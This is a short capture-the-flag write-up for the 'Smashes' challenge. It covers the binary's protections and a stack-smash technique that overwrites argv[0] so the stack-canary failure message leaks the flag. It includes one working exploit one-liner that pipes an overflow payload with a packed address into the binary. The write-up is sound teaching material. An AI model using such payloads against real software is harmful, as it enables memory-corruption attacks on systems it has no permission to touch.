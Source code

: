 # Smashes
## 0x00 checksec
>     Arch:     amd64-64-little
>     RELRO:    No RELRO
>     Stack:    Canary found
>     NX:       NX enabled
>     PIE:      No PIE (0x400000)
>     FORTIFY:  Enabled
## 0x01 exp_logic
- Stack Smash [detailed explanation](https://ctf-wiki.github.io/ctf-wiki/pwn/stackoverflow/others/#stack-smash)
- Use gdb-peda to calculate offset between buffer and $rsp
- Double memory map of short .data segment, detailed information can be found in 《程序员的自我修养》6.4.4-段地址对齐
- BTW, you are supposed to observe the codes in smashes-fortify_fail.c (DO take notice of function __libc_message)
To sum up, we should override the certain function in main function to call the __stack_chk_fail function, 
and then we can falsify *argv with the address of flag on the server by long override. So that can we print the flag while exploiting.
## 0x02 exp_script
- To begin with, local test is crucial to our exploit. Such as the following:
'''
python -c 'print "A"*536+"\x20\x0d\x40\x00\x00\x00\x00\x00"+"\n"+"a"' | ./smashes
''' 
- Then exp_script should be scripted. Ready exp_script can be found in smashes.py